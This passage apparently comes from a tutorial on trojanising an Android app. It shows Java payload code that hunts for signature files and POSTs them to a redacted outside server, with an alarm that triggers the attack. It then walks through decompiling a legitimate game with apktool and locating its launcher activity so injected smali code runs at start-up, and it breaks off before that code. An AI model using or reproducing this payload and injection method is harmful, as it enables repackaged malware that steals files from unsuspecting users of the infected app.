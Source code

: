 ```StageAttack``` - consists of one static method that starts our attack. Static property will help us to easily inject itself to the target class.
	alarmMgr.setExactAndAllowWhileIdle(AlarmManager.RTC_WAKEUP, System.currentTimeMillis() 
		+ 5000, alarmIntent);
}
{% endhighlight %}

If a digital signature is found, we send the file to the server:

{% highlight java %}
private void sendToServer(String path) {
	File file = new File(path);
	URL url = new URL("http://xxxxxxxxxx");
	HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
	urlConnection.setConnectTimeout(30 * 1000);

	urlConnection.setRequestMethod("POST");
	urlConnection.setDoOutput(true);
	urlConnection.setRequestProperty("Content-Type", "application/octet-stream");

	DataOutputStream request = new DataOutputStream(urlConnection.getOutputStream());
	request.write(readFileToByteArray(file));
	request.flush();
	request.close();

	int respCode = urlConnection.getResponseCode();
	Log.d(TAG, "Return status code: " + respCode);
}
{% endhighlight %}

## Injecting payload

First, we decompile target application (the application that we want to infect) using [apktool](https://ibotpeaches.github.io/Apktool/). We do not decompile the application to java code, because after the modification, we will not be able to assemble it back. We need to get smali classes. And we will also inject our code in the form of smali code.

<details><summary>What is smali code?</summary></details>

If we want our payload to be executed at application start up, we must modify the entry point. The entry point to any GUI application is an ```Activity``` child class that receives ```ACTION_MAIN```. Open the folder with the decompiled application, and search for entry point in the AndroidManifest.xml file:

{% highlight xml %}
<activity android:name="com.halfbrick.mortar.MortarGameLauncherActivity">
<intent-filter>
	<action android:name="android.intent.action.MAIN"/>
	<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
{% endhighlight %}

We found the ```com.halfbrick.mortar.MortarGameLauncherActivity``` class we needed. Before you study it, let’s look at the life cycle of Activity

![activity life cycle](/assets/images/activity_lifecycle.png)

[source](https://developer.android.com/reference/android/app/Activity)

Open Activity, for me it lies along the path ```base\smali_classes2\com\halfbrick\mortar\MortarGameLauncherActivity.smali```. If you have not seen smali code before, this is not scary, it is simple enough to read and logically clear:

```java
```